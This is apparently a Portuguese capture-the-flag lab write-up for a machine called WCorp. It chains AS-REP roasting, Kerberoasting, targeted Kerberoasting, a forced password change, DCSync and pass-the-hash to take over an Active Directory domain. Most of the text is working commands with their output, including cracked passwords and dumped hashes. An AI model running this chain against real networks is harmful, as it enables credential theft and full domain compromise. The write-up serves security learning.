


WCorp — HC
Comprometimento completo de domínio Active Directory via AS-REP Roasting, Kerberoasting, Targeted Kerberoasting, ForceChangePassword e DCSync. Cadeia de ataque partindo de acesso anônimo SMB até Administrator.
AS-REP
Kerberoast
GenericWrite
ForceChangePwd
DCSync
Information Gathering
Portscan
Iniciamos com a enumeração de portas e serviços ativos no ambiente alvo.
bash$ bash ~/tools/enumport/script.sh 172.16.11.181
Enumerando portas....
Portas abertas: 53,88,135,139,389,445,593,636,3269,3389,5985,9389,...
Verificando Serviços
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos
389/tcp open ldap Microsoft Windows Active Directory LDAP
(Domain: wcorp.hc0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
3389/tcp open ms-wbt-server Microsoft Terminal Services
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (WinRM)
| rdp-ntlm-info:
| Target_Name: WCORP
| DNS_Domain_Name: wcorp.hc
| DNS_Computer_Name: dc-01.wcorp.hc
|_ Product_Version: 10.0.20348
Nmap done: 1 IP address (1 host up) scanned in 110.29 seconds
Obs: Script personalizado de enumeração: github.com/fstringuetta/enumport
Configuração do arquivo hosts
bash$ echo '172.16.11.181 wcorp.hc dc-01.wcorp.hc' | sudo tee -a /etc/hosts
Enumeração SMB & RID Brute Force
Com o SMB ativo, realizamos tentativa de acesso com credenciais de convidado para identificar permissões indevidas em compartilhamentos.
bash$ netexec smb 172.16.11.181 -u guest -p '' --shares
SMB 172.16.11.181 445 DC-01 [+] wcorp.hc\guest:
SMB 172.16.11.181 445 DC-01 Share Permissions Remark
SMB 172.16.11.181 445 DC-01 ----- ----------- ------
SMB 172.16.11.181 445 DC-01 ADMIN$ Remote Admin
SMB 172.16.11.181 445 DC-01 C$ Default share
SMB 172.16.11.181 445 DC-01 IPC$ READ Remote IPC
SMB 172.16.11.181 445 DC-01 NETLOGON Logon server share
SMB 172.16.11.181 445 DC-01 SYSVOL Logon server share
A conta guest está habilitada com permissão de leitura no IPC$. Isso permite enumerar usuários do domínio via RID Brute Forcing com o parâmetro --rid-brute.
bash$ netexec smb 172.16.11.181 -u 'guest' -p '' --rid-brute 2>/dev/null \
| grep 'SidTypeUser' | awk -F '\\' '{print $2}' | awk '{print $1}'
Administrator
Guest
krbtgt
DC-01$
john.doe
alice.hr
bob.finance
charlie.dev
diana.ops
svc_backup
svc_web

AS-REP Roasting — svc_backup
Com a lista de usuários em mãos, identificamos duas contas de serviço: svc_backup e svc_web. Verificamos a presença da flag Do not require Kerberos preauthentication usando o GetNPUsers.py do Impacket.
bash$ GetNPUsers.py wcorp.hc/guest -no-pass -dc-ip 172.16.11.181 \
-usersfile users.txt -outputfile hashes
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User john.doe doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User diana.ops doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc_backup@WCORP.HC:d1c7e43b9d22ee883593a84c4c26a64a$...
[-] User svc_web doesn't have UF_DONT_REQUIRE_PREAUTH set
Hash AS-REP obtido para svc_backup! Executamos o ataque de força bruta com John:
bash$ john -w=/usr/share/wordlists/rockyou.txt --format=krb5asrep hashes-krb5
LuvinJames<3 ($krb5asrep$23$svc_backup@WCORP.HC)
1g 0:00:00:14 DONE (2025-04-19 17:29) 0.07017g/s 764874p/s
svc_backup : LuvinJames<3

Com as credenciais validadas, enumeramos todos os usuários do AD e obtemos a primeira evidência.
bash$ netexec smb 172.16.11.181 -u 'svc_backup' -p 'LuvinJames<3' --users
Obtida via enumeração de usuários com svc_backup
Kerberoasting — svc_web
Executamos o ingestor do BloodHound para mapear o domínio e identificar caminhos de escalada.
bash$ bloodhound-python --zip -c All -d wcorp.hc \
-u 'svc_backup' -p 'LuvinJames<3' \
-dc dc-01.wcorp.hc -ns 172.16.11.181
INFO: Found 1 domains | Found 11 users | Found 53 groups
INFO: Compressing output into 20250419205634_bloodhound.zip

O BloodHound revelou que seria necessário comprometer svc_web. Verificamos a existência de SPNs associados:
bash$ GetUserSPNs.py wcorp.hc/svc_backup:'LuvinJames<3' -dc-ip 172.16.11.181
ServicePrincipalName Name PasswordLastSet LastLogon
-------------------- ------- --------------------------- --------------------------
HTTP/app01.wcorp.hc svc_web 2025-04-17 03:55:21.770126 2025-04-19 18:20:46.842080
SPN confirmado — executamos o Kerberoasting para obter o TGS:
bash$ GetUserSPNs.py wcorp.hc/svc_backup:'LuvinJames<3' -dc-ip 172.16.11.181 -request
$krb5tgs$23$*svc_web$WCORP.HC$wcorp.hc/svc_web*$928e2188409c8fe6d3ef600530ab7ed9$...
bash$ john -w=/usr/share/wordlists/rockyou.txt hash-svc-web --format=krb5tgs
J&J=1331ch (?)
1g 0:00:00:15 DONE (2025-04-19 21:12)
svc_web : J&J=1331ch
Targeted Kerberoasting — john.doe
Nova análise no BloodHound com as credenciais de svc_web revelou permissão GenericWrite sobre o usuário john.doe.

A permissão GenericWrite permite modificar atributos como servicePrincipalName. Adicionando um SPN falso ao objeto alvo, forçamos o KDC a emitir um TGS que pode ser quebrado offline.
bash$ python3 ~/tools/targetedKerberoast/targetedKerberoast.py \
-v -d 'wcorp.hc' -u 'svc_web' -p 'J&J=1331ch'
[VERBOSE] SPN added successfully for (john.doe)
[+] Printing hash for (john.doe)
$krb5tgs$23$*john.doe$WCORP.HC$wcorp.hc/john.doe*$939e53611c683c816214a9c0ad74eaf8$...
Link de referência: ShutdownRepo/targetedKerberoast
bash$ john -w=/opt/SecLists/Passwords/xato-net-10-million-passwords.txt \
hash-john --format=krb5tgs
Welcome01! (?)
1g 0:00:00:03 DONE (2025-04-19 21:31)
john.doe : Welcome01!
ForceChangePassword — diana.ops
Análise no BloodHound com as credenciais de john.doe revelou o privilégio ForceChangePassword sobre a conta diana.ops.

Permite alterar a senha de outro objeto no AD sem precisar conhecer a senha atual. Viabiliza movimentação lateral e escalada de privilégios.
bash$ net rpc password "diana.ops" "newP@ssword2025" \
-U "wcorp.dc"/"john.doe"%"Welcome01!" -S "172.16.11.181"
Validando a troca de senha:
bash$ netexec smb 172.16.11.181 -u diana.ops -p 'newP@ssword2025'
SMB 172.16.11.181 445 DC-01 [+] wcorp.hc\diana.ops:newP@ssword2025
DCSync & Acesso ao Administrator
Com a conta diana.ops comprometida e confirmada sua permissão DCSync, executamos o secretsdump.py para replicar as credenciais de todo o domínio.

bash$ secretsdump.py wcorp.hc/diana.ops:'newP@ssword2025'@172.16.11.181
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bca93a964b13304c96a364e8d59ce3cb:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cc714fd2703f917adcfc0aa3555917a4:::
wcorp.hc\john.doe:1103:::a59cc2e81b2835c6b402634e584a8edc:::
wcorp.hc\svc_backup:1108:::22221aa9489a9fa9996434260acdb6be:::
wcorp.hc\svc_web:1109:::232a3f9ae310b39473cd157a270d80d6:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:8ee821d1e116cb434d87263887bdb5ed587572e904d2bf0d7da3b8d07c43927a
[*] Cleaning up...
Simula o comportamento de um Domain Controller solicitando replicação de dados do AD via protocolo MS-DRSR, extraindo hashes NTLM e chaves Kerberos de todas as contas do domínio.
Com o hash NTLM do Administrator em mãos, estabelecemos sessão via WinRM usando Pass-the-Hash:
bash$ evil-winrm -i 172.16.11.181 -u Administrator \
-H bca93a964b13304c96a364e8d59ce3cb
Evil-WinRM shell v3.5
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
wcorp\administrator

Obtida em C:\Users\Administrator\Desktop\root.txt